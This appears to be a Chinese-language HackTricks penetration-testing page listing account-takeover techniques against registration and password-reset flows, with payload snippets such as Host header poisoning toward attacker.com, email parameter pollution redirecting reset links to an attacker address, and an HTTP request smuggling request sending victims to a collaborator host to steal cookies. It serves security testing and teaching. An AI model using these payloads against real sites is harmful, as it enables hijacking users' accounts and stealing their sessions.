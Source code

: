 # 注册与接管漏洞

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

## 注册接管

### 重复注册

* 尝试使用现有用户名生成
* 检查变更电子邮件：
* 大写
* \+1@
* 在电子邮件中添加一些内容
* 电子邮件名中的特殊字符（%00, %09, %20）
* 在电子邮件后面放置空白字符：`test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### 用户名枚举

检查您是否可以确定应用程序内部是否已经注册了用户名。

### 密码策略

创建用户时检查密码策略（检查是否可以使用弱密码）。\
在这种情况下，您可以尝试暴力破解凭据。

### SQL注入

[**查看此页面**](sql-injection/#insert-statement)了解如何通过**SQL注入**尝试账户接管或通过注册表单提取信息。

### Oauth接管

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### SAML漏洞

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### 更改电子邮件

注册后尝试更改电子邮件，并检查此更改是否正确验证或可以将其更改为任意电子邮件。

### 更多检查

* 检查是否可以使用**一次性电子邮件**
* **长密码**（>200）会导致**DoS**
* **检查账户创建的速率限制**
* 使用username@**burp\_collab**.net并分析**回调**

## **密码重置接管**

### 通过引用来源泄露密码重置令牌 <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. 请求将密码重置链接发送到您的电子邮件地址
2. 点击密码重置链接
3. 不更改密码
4. 点击任何第三方网站（例如：Facebook，twitter）
5. 在Burp Suite代理中拦截请求
6. 检查referer头是否泄露了密码重置令牌。

### 密码重置投毒 <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. 在Burp Suite中拦截密码重置请求
2. 在Burp Suite中添加或编辑以下头部：`Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. 使用修改后的头部转发请求\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. 寻找基于_host header_的密码重置URL，例如：`https://attacker.com/reset-password.php?token=TOKEN`

### 通过电子邮件参数进行密码重置 <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### API 参数的 IDOR <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. 攻击者需要使用他们的账户登录并前往 **更改密码** 功能。
2. 启动 Burp Suite 并拦截请求
3. 将其发送到重放(repeater)标签并编辑参数：用户 ID/邮箱\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### 弱密码重置令牌 <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

密码重置令牌应该每次都随机生成且唯一。\
尝试确定令牌是否会过期或是否总是相同的，在某些情况下，生成算法可能很弱并且可以被猜测。以下变量可能会被算法使用。

* 时间戳
* 用户ID
* 用户邮箱
* 名和姓
* 出生日期
* 密码学
* 仅数字
* 小令牌序列（字符在 \[A-Z,a-z,0-9] 之间）
* 令牌重用
* 令牌过期日期

### 泄露密码重置令牌 <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. 使用特定邮箱例如：test@mail.com 通过 API/UI 触发密码重置请求
2. 检查服务器响应并查找 `resetToken`
3. 然后在 URL 中使用该令牌，如 `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### 通过用户名冲突进行密码重置 <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. 在系统上注册一个与受害者用户名相同的用户名，但在用户名前后插入空格。例如：`"admin "`
2. 使用恶意用户名请求密码重置。
3. 使用发送到你邮箱的令牌重置受害者密码。
4. 使用新密码连接到受害者账户。

平台 CTFd 曾对此攻击漏洞。\
参见：[CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### 通过跨站脚本攻击接管账户 <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. 如果 cookies 适用于父域：`*.domain.com`，在应用程序或子域中找到 XSS
2. 泄露当前的 **会话 cookie**
3. 使用 cookie 作为用户进行认证

### 通过 HTTP 请求走私接管账户 <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. 使用 **smuggler** 检测 HTTP 请求走私的类型（CL, TE, CL.TE）\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. 制作一个请求，将 `POST / HTTP/1.1` 覆盖为以下数据：\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` 目的是打开重定向受害者到 burpcollab 并窃取他们的 cookies\
3\. 最终请求可能看起来如下
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone 报告利用了这个漏洞
* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)
* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### 通过 CSRF 实现账户接管 <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. 为 CSRF 创建有效载荷，例如：“自动提交密码更改的 HTML 表单”
2. 发送有效载荷

### 通过 JWT 实现账户接管 <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token 可能用于用户认证。

* 使用另一个用户 ID / 电子邮件编辑 JWT
* 检查 JWT 签名是否薄弱

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## 参考资料

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> 从零开始学习 AWS 黑客攻击成为英雄！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您希望在 **HackTricks** 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs**](https://opensea.io/collection/the-peass-family) 收藏
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。**

</details>
